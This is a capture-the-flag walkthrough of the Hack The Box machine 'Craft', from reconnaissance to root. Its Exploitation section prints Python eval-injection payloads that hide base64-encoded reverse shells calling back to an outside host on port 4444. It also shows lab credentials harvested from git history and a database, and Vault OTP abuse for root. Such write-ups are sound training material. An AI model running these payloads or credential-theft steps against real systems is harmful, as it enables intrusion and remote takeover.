# Craft Writeup - by Thammanant Thamtaranon

**Craft** is a medium-difficulty Linux-based machine hosted on Hack The Box.

## Reconnaissance
- I began with a full TCP port scan, including service/version detection and OS fingerprinting:
  `nmap -A -T4 -p- 10.10.10.110`
  
- The scan revealed the following open ports:
  - **22** — SSH
  - **443** — HTTPS
  - **6022** — Golang x/crypto/ssh server
- I added `craft.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration
- Visiting the HTTPS site and inspecting the response in Burp Suite revealed additional VHosts, including `api.craft.htb` and `gogs.craft.htb`. We added those to `/etc/hosts`.
  
- Visiting `api.craft.htb` exposed a Swagger API. Unfortunately, we need credentials or token to use this API.
  
- Visiting `gogs.craft.htb` led us to the Craft repository.
  
- In the **Issues** tab, we found a JWT token belonging to user `Dinesh Chugtai`.
  
- Decoding this token in `jwt.io` showed that it had already expired.
  

## Exploitation
- After cloning the repository, we discovered that the database is MySQL and the Python framework is Flask. We also noticed `settings.py` in `.gitignore` and noted it for potential future use.
- Inspecting the repository's Python files, we found vulnerable code in `brew.py`. The code uses `eval()`. The `eval()` function in Python takes a string and executes it as valid Python code.
  
  
- We ran the command `git log -p` and found credentials for user `dinesh`.
  
- We returned to Swagger, logged in as user `dinesh`, and obtained a valid Token.
  
- Knowing the `abv` parameter uses `eval()`, we crafted a payload. We attempted to send the following encoded payload:
  ```"__import__('os').system('echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTYuNCA0NDQ0ID4vdG1wL2YK | base64 -d | bash')"```
  
- The attempt failed with the error: "ABV must be a decimal value less than 1.0". This indicated a crash, likely due to the absence of `bash`. Consequently, we decided to try `sh`.
  ```"__import__('os').system('echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoJzEwLjEwLjE2LjQnLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsnL2Jpbi9zaCcsJy1pJ10pOwo= | base64 -d | python3')"```
  
- It worked, and we gained access as root. However, I suspected we were inside a container.
  
- In `/opt/app/craft_api`, we read `settings.py` and found MySQL credentials.
  
- We tried to connect to MySQL, but the `mysql` binary was missing. Instead, we ran the following Python one-liner:
  ```python3 -c 'import pymysql; conn=pymysql.connect(host="db", user="craft", password="qLGockJ6G2J75O", db="craft"); c=conn.cursor(); c.execute("SELECT * FROM user"); print(c.fetchall())```
- This revealed several user credentials.
  
- I attempted to SSH into the machine but failed. I then used these credentials to log in to `gogs.craft.htb` and successfully authenticated using `gilfoyle:ZEU3N8WNM2rh4T`.
  
- We found Gilfoyle's private repository named `craft-infra`.
  
- Inside the `.ssh` folder, we found both public and private SSH keys.
  
- We downloaded `id_rsa` and connected to the machine via SSH using the passphrase `ZEU3N8WNM2rh4T`.
  
- We captured the user flag.

## Privilege Escalation
- Running `sudo -l` showed that the `sudo` binary was not present on this machine.
- In user `gilfoyle`'s home directory, we found `.vault-token`. Recalling the `craft-infra` repository, we noted a folder named `vault`. This confirmed the use of **HashiCorp Vault**, a tool used to keep secrets (passwords, API keys, certificates) safe.
- Analyzing `secrets.sh` in the vault folder, we saw `vault secrets enable ssh` and `default_user=root`. This implies the vault is configured to generate an OTP (One-Time Password) for the root user.
- The `.vault-token` file allows the client to authenticate without re-entering credentials. We used this existing token to interact with the vault.
- Reading `/etc/hosts` revealed the Vault IP.
  
- We ran `vault write -tls-skip-verify ssh/creds/root_otp ip=10.10.10.110`. This command requests Vault to generate an OTP for the default role, which is `root_otp` (root).
  
- We copied the `key` field from the output and SSH'd into the machine as `root`, using the generated key as the password.
- We captured the root flag.
  
